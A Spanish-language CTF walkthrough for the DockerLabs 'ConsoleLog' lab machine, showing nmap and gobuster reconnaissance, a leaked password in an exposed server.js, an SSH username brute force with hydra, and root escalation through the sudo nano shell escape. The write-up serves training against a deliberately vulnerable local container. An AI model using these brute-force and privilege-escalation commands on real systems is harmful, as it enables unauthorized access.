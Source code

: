 # ConsoleLog DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip consolelog.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh consolelog.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 14:19 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000027s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Mi Sitio
3000/tcp open  http    Node.js Express framework
|_http-title: Error
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
|_  256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

Vemos que el `SSH` esta en el puerto `5000` de primeras, si entramos en el puerto `80` veremos una pagina aparentemente normal, pero si realizamos un poco de `fuzzing` veremos lo siguiente:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/backend              (Status: 200) [Size: 1563]
/index.html           (Status: 200) [Size: 234]
/javascript           (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un directorio bastante interesante llamado `/backend` y si entramos dentro el unico archivo que nos va a interesar es el llamado `server.js` que contendra lo siguiente:

## Escalate user lovely

```javascript
const express = require('express');
const app = express();

const port = 3000;

app.use(express.json());

app.post('/recurso/', (req, res) => {
    const token = req.body.token;
    if (token === 'tokentraviesito') {
        res.send('lapassworddebackupmaschingonadetodas');
    } else {
        res.status(401).send('Unauthorized');
    }
});

app.listen(port, '0.0.0.0', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});
```

Vemos que es una posible contraseña de algun usuario del sistema, por lo que intentaremos realizar fuerza bruta con `hydra`:

## Hydra

```shell
hydra -L <WORDLIST> -p lapassworddebackupmaschingonadetodas ssh://<IP> -s 5000 -t 64 -I 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-21 14:28:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 624370 login tries (l:624370/p:1), ~9756 tries per task
[DATA] attacking ssh://172.17.0.2:5000/
[STATUS] 505.00 tries/min, 505 tries in 00:01h, 623907 to do in 20:36h, 22 active
[STATUS] 441.00 tries/min, 1323 tries in 00:03h, 623092 to do in 23:33h, 19 active
[STATUS] 383.00 tries/min, 2681 tries in 00:07h, 621736 to do in 27:04h, 17 active
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Y vemos que obtenemos las credenciales del usuario `lovely`, por lo que nos conectaremos por `ssh`.

## SSH

```shell
ssh lovely@<IP> -p 5000
```

Metemos como contraseña `lapassworddebackupmaschingonadetodas` y veremos que estamos dentro como dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for lovely on 1db80b165ab8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User lovely may run the following commands on 1db80b165ab8:
    (ALL) NOPASSWD: /usr/bin/nano
```

Veremos que podemos ejecutar el binario `nano` como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo nano
^R^X
reset; bash 1>&0 2>&0
```

Info:

```
root@1db80b165ab8:/home/lovely# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
